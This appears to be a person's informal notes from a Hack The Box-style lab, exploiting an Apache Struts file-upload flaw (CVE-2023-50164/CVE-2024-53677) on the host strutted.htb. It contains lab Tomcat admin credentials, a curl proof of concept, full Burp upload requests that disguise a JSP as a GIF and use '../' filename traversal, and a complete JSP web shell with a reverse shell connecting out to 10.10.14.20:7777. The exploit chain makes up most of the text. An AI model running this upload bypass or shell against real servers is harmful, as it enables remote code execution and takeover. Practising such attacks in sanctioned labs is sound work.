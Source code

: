 ___


form id="upload" name="upload" action="[/upload.action;jsessionid=300B99F54DFABC14CF322AA0D2B93FB6](view-source:http://strutted.htb/upload.action;jsessionid=300B99F54DFABC14CF322AA0D2B93FB6)" method="post" enctype="multipart/form-data"> class="mb-3 file-group">  for="upload" class="form-label">Choose an image to upload: type="file" name="upload" id="upload" class="form-control"/> lass="d-grid"type="submit" value="Upload" id="upload_0" class="btn btn-primary"/> 
iv

*this is post endpoint for file upload*

/upload.action;jsessionid=300B99F54DFABC14CF322AA0D2B93FB6

nginx is being used as a reverse proxy

apache tomcat is the actual server running the java app

jsessionid being passed in url -> can i fuzz it?? is there a format for them idk

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
*tomcat gui creds*
`%% <tomcat-users>`
    `<role rolename="manager-gui"/>`
    `<role rolename="admin-gui"/>`
    `<user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>`
`</tomcat`


  `<CookieProcessor className="org.apache.tomcat.util.http.Rfc6265CookieProcessor"`
 `%%`



*I think this the CVE*

https://cloudsecurityalliance.org/blog/2024/03/06/cybersecurity-advisory-apache-struts-vulnerability-cve-2023-50164


# Cybersecurity Advisory: Apache Struts Vulnerability CVE-2023-50164


*this docker container image of tomcat is vulnerable to rce with that CVE*

https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker/blob/main/context.xml

*this is what i used*
https://github.com/snyk-labs/CVE-2023-50164-POC

*POC*

```
curl \
http://localhost:9999/struts-vuln-poc/upload.action \
-F "Upload=@./payload/rogue.jsp" \
-F "uploadFileName=../src/main/webapp/rogue.jsp"
```


*gif file top*
GIF89aÜ T ÷ F@?F04U;7	;79zxw 3/3ULIÜÝà4*&º­¥*&)356e[Zpll J#"   .)/RD! ^.&K0'' %91,0èèêÇ¾¸&äáÝÒµ¥YB=>ArL:çåäÖÔÒµ³¶HGM¾º·ÇÇÊx«uf²m¤oOª§§TSSôòô«¡~h[Ç©çÝÑ÷õø¤bNC!kVK¡lD5aDéÎ¿ld]ÒÎÊ¨zfjS¾®zRÌ¡ÆizýûüTU[rV<öô÷+&0



*this is the absolute path of the webapp*


/usr/local/tomcat/webapps/ROOT/


*this file path?*
../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/files.gif


WEB-INF/upload.jsp


*this is where files get uploaded*
http://strutted.htb:8080/uploads/20250805_225944/files.gif



*imma keep looking*

*this is the version of struts in library*
struts2-core-6.3.0.1.jar vulnerabilities



# CVE-2023-50164

#CVE-2024-53677 -> newer one 
this should b the cve


*I am using the fileUpload Interceptor so the last CVE should work*
%% 
`root@7b1b5932499a:/usr/local/tomcat/webapps/ROOT/WEB-INF/classes# cat struts.xml | grep -i interceptor`
            `<interceptor-ref name="fileUpload">`
            `</interceptor-ref>`
            `<interceptor-ref name="defaultStack"/>`

 %%


*now I need to bypass validation checks and upload jsp for rev shell*


THIS WORKED ON BURP GOT DIRECTORY TRAVERSAL
# holly fuck I got it!!!!!!!!!!!!!!!!!!!!

`POST /upload.action HTTP/1.1`
`Host: strutted.htb:8080`
`User-Agent: Mozilla/5.0`
`Accept-Encoding: gzip, deflate`
`Accept: */*`
`Connection: keep-alive`
`Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Length: 577`

`------WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Disposition: form-data; name="Upload"; filename="file.gif"`
`Content-Type: image/gif`

`GIF89aÜ T ÷ F@?F04U;7	;79zxw 3/3ULIÜÝà4*&º­¥*&)356e[Zpll J#"   .)/RD! ^.&K0'' %91,0èèêÇ¾¸&äáÝÒµ¥YB=>ArL:çåäÖÔÒµ³¶HGM¾º·ÇÇÊx«uf²m¤oOª§§TSSôòô«¡~h[Ç©çÝÑ÷õø¤bNC!kVK¡lD5aDéÎÂ¿ld]ÃÃÃÂ¨zfÂjSÂ¾ÂÂÂ®zRÃÂ¡ÂÃÂizÂÂÃ½Ã»Ã¼TU[rV<Ã¶Ã´Ã·+&0`
`------WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Disposition: form-data; name="uploadFileName"`

`../../file.gif`
`------WebKitFormBoundaryq8xuqupv9fo4psw6--`



*magic file number*
GIF89aÜ


*java web 2 way from rev shells worked!!!*








# full burp post request

`POST /upload.action HTTP/1.1`
`Host: strutted.htb:80`
`User-Agent: Mozilla/5.0`
`Accept-Encoding: gzip, deflate`
`Accept: */*`
`Connection: keep-alive`
`Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Length: 3850`

`------WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Disposition: form-data; name="Upload"; filename="file.gif"`
`Content-Type: image/gif`

`GIF89aÜ <%`
    `/*`
     `* Usage: This is a 2 way shell, one web shell and a reverse shell. First, it will try to connect to a listener (atacker machine), with the IP and Port specified at the end of the file.`
     `* If it cannot connect, an HTML will prompt and you can input commands (sh/cmd) there and it will prompts the output in the HTML.`
     `* Note that this last functionality is slow, so the first one (reverse shell) is recommended. Each time the button "send" is clicked, it will try to connect to the reverse shell again (apart from executing` 
     `* the command specified in the HTML form). This is to avoid to keep it simple.`
     `*/`
`%>`


`<%@page import="java.lang.*"%>`
`<%@page import="java.io.*"%>`
`<%@page import="java.net.*"%>`
`<%@page import="java.util.*"%>`

`<html>`
`<head>`
    `<title>jrshell</title>`
`</head>`
`<body>`
`<form METHOD="POST" NAME="myform" ACTION="">`
    `<input TYPE="text" NAME="shell">`
    `<input TYPE="submit" VALUE="Send">`
`</form>`
`<pre>`
`<%`
    `// Define the OS`
    `String shellPath = null;`
    `try`
    `{`
        `if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {`
            `shellPath = new String("/bin/sh");`
        `} else {`
            `shellPath = new String("cmd.exe");`
        `}`
    `} catch( Exception e ){}`
    `// INNER HTML PART`
    `if (request.getParameter("shell") != null) {`
        `out.println("Command: " + request.getParameter("shell") + "\n<BR>");`
        `Process p;`
        `if (shellPath.equals("cmd.exe"))`
            `p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));`
        `else`
            `p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));`
        `OutputStream os = p.getOutputStream();`
        `InputStream in = p.getInputStream();`
        `DataInputStream dis = new DataInputStream(in);`
        `String disr = dis.readLine();`
        `while ( disr != null ) {`
            `out.println(disr);`
            `disr = dis.readLine();`
        `}`
    `}`
    `// TCP PORT PART`
    `class StreamConnector extends Thread`
    `{`
        `InputStream wz;`
        `OutputStream yr;`
        `StreamConnector( InputStream wz, OutputStream yr ) {`
            `this.wz = wz;`
            `this.yr = yr;`
        `}`
        `public void run()`
        `{`
            `BufferedReader r  = null;`
            `BufferedWriter w = null;`
            `try`
            `{`
                `r  = new BufferedReader(new InputStreamReader(wz));`
                `w = new BufferedWriter(new OutputStreamWriter(yr));`
                `char buffer[] = new char[8192];`
                `int length;`
                `while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )`
                `{`
                    `w.write( buffer, 0, length );`
                    `w.flush();`
                `}`
            `} catch( Exception e ){}`
            `try`
            `{`
                `if( r != null )`
                    `r.close();`
                `if( w != null )`
                    `w.close();`
            `} catch( Exception e ){}`
        `}`
    `}`
 
    `try {`
        `Socket socket = new Socket( "10.10.14.20", 7777 ); // Replace with wanted ip and port`
        `Process process = Runtime.getRuntime().exec( shellPath );`
        `new StreamConnector(process.getInputStream(), socket.getOutputStream()).start();`
        `new StreamConnector(socket.getInputStream(), process.getOutputStream()).start();`
        `out.println("port opened on " + socket);`
     `} catch( Exception e ) {}`
`%>`
`</pre>`
`</body>`
`</html>`
`------WebKitFormBoundaryq8xuqupv9fo4psw6`
`Content-Disposition: form-data; name="uploadFileName"`

`../../file.jsp`
`------WebKitFormBoundaryq8xuqupv9fo4psw6--`





`<!--`
  `<user username="admin" password="<must-be-changed>" roles="manager-gui"/>`
  `<user username="robot" password="<must-be-changed>" roles="manager-script"/>`
  `<role rolename="manager-gui"/>`
  `<role rolename="admin-gui"/>`
  `<user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>`
`--->`
`<!--`

  `Built-in Tomcat manager roles:`
    `- manager-gui    - allows access to the HTML GUI and the status pages`
    `- manager-script - allows access to the HTTP API and the status pages`



`*whats this*`
    `<!-- Define an AJP 1.3 Connector on port 8009 -->`
    `<!--`
    `<Connector protocol="AJP/1.3"`
               `address="::1"`
               `port="8009"`
               `redirectPort="8443" />`
    `-->`



james:x:1000:1000:Network Administrator:/home/james:/bin/bash


sudo -l

*root was super easy*



